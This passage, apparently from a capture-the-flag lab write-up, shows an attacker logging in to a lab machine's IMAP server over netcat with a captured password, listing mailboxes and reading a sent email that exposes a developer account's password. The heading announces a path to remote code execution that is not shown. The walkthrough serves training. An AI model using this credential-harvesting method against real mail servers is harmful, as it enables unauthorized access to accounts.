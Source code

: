 It seems that we have a password being sent here.&#x20;

### IMAP --> FTP Creds --> RCE

This password does not work with `ssh` or any other services. Instead, let's try to login on IMAP and see if we can view any other messages that this user has.&#x20;

{% code overflow="wrap" %}
```
$ nc 10.129.2.28 143
* OK [CAPABILITY IMAP4rev1 UIDPLUS CHILDREN NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT QUOTA IDLE ACL ACL2=UNION STARTTLS ENABLE UTF8=ACCEPT] Courier-IMAP ready. Copyright 1998-2018 Double Precision, Inc.  See COPYING for distribution information.
A1 login paulbyrd ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
* OK [ALERT] Filesystem notification initialization error -- contact your mail administrator (check for configuration errors with the FAM/Gamin library)
A1 OK LOGIN Ok.
```
{% endcode %}

Works! Now we can enumerate this system. We can view the Inboxes and messages present:

{% code overflow="wrap" %}
```
A1 LIST INBOX *
* LIST (\HasNoChildren) "." "INBOX.Trash"
* LIST (\HasNoChildren) "." "INBOX.Sent"
* LIST (\HasNoChildren) "." "INBOX.Deleted Items"
* LIST (\HasNoChildren) "." "INBOX.Sent Items"
A1 OK LIST completed

A1 SELECT "INBOX.Sent Items"
* FLAGS (\Draft \Answered \Flagged \Deleted \Seen \Recent)
* OK [PERMANENTFLAGS (\* \Draft \Answered \Flagged \Deleted \Seen)] Limited
* 2 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 589480766] Ok
* OK [MYRIGHTS "acdilrsw"] ACL
A1 OK [READ-WRITE] Ok
A1 FETCH 2 all
* 2 FETCH (FLAGS (\Seen) INTERNALDATE "23-Jun-2020 09:27:08 -0400" RFC822.SIZE 585 ENVELOPE ("Wed, 27 May 2020 13:28:58 -0400" "Module testing" (("Paul Byrd" NIL "paulbyrd" "sneakymailer.htb")) (("Paul Byrd" NIL "paulbyrd" "sneakymailer.htb")) (("Paul Byrd" NIL "paulbyrd" "sneakymailer.htb")) ((NIL NIL "low" "debian")) NIL NIL NIL "<4d08007d-3f7e-95ee-858a-40c6e04581bb@sneakymailer.htb>"))
A1 OK FETCH completed.

A1 FETCH 1 body[text]
* 1 FETCH (BODY[TEXT] {1888}
--_21F4C0AC-AA5F-47F8-9F7F-7CB64B1169AD_
Content-Transfer-Encoding: quoted-printable
Content-Type: text/plain; charset="utf-8"

Hello administrator, I want to change this password for the developer accou=
nt

Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
```
{% endcode %}
